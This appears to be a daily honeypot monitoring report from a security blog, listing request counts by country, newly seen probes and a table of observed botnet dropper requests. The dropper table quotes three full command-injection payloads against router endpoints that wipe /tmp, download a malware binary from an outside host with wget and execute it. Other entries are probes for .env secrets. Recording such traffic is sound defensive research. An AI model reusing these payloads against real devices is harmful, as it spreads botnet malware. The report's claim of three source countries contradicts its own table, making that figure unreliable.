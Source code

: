 ```yaml
---
title: "Report: 2025-06-02 "
date: 2025-06-02
desciption: "Report: 2025-06-02" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-02 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 10 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1375 requests were recorded during the day, originating from 3 different countries, with a peak of 318 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| HK               | Germany            |
| SG               | Germany            |
| JP               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| FR               | Israel             |
| MD               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                         |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.207.125.80 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                       |
| 88.247.29.37   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 157.90.250.90/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                      |
| 176.65.148.234 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F141.98.11.175%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20router HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                    |
|----:|----------------------:|:-------------------------------------------|
| 118 |                     4 | CONNECT packetsdatabase.com:443 HTTP/1.1   |
| 123 |                     3 | GET /APPS/.env HTTP/1.1                    |
| 219 |                     1 | GET /Nmap/folder/check1748876450 HTTP/1.1  |
| 301 |                     1 | GET /socket.io/1/?t=1748841403604 HTTP/1.1 |
| 380 |                     1 | GET /NmapUpperCheck1748876450 HTTP/1.1     |
| 402 |                     1 | GET /BkmB HTTP/1.1                         |
| 427 |                     1 | GET /nmaplowercheck1748876450 HTTP/1.1     |
| 431 |                     1 | GET /nmaplowercheck1748853379 HTTP/1.1     |
| 432 |                     1 | GET /NmapUpperCheck1748853379 HTTP/1.1     |
| 433 |                     1 | GET /Nmap/folder/check1748853379 HTTP/1.1  |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   318 | BG                 |
|  1 |                   206 | US                 |
|  2 |                   147 | GB                 |
|  3 |                    95 | CN                 |
|  4 |                    84 | DE                 |
|  5 |                    82 | JP                 |
|  6 |                    51 | HK                 |
|  7 |                    48 | KZ                 |
|  8 |                    39 | IN                 |
|  9 |                    37 | NL                 |
| 10 |                    34 | FR                 |
| 11 |                    26 | PL                 |
| 12 |                    23 | CH                 |
| 13 |                    22 | EE                 |
| 14 |                    20 | MD                 |
| 15 |                    18 | SC                 |
| 16 |                    16 | GH                 |
| 17 |                    14 | NG                 |
| 18 |                    13 | AU                 |
| 19 |                    12 | AO                 |
| 20 |                    10 | RO                 |
| 21 |                     8 | PT                 |
| 22 |                     7 | VN                 |
| 23 |                     7 | BR                 |
| 24 |                     6 | BE                 |
| 25 |                     6 | SG                 |
| 26 |                     3 | TH                 |
| 27 |                     3 | CA                 |
| 28 |                     3 | ZA                 |
| 29 |                     2 | DK                 |
| 30 |                     2 | RU                 |
| 31 |                     2 | MN                 |
| 32 |                     2 | KW                 |
| 33 |                     2 | IR                 |
| 34 |                     2 | IE                 |
| 35 |                     1 | ES                 |
| 36 |                     1 | IT                 |
| 37 |                     1 | TR                 |
| 38 |                     1 | IL                 |
| 39 |                     1 | ID                 |
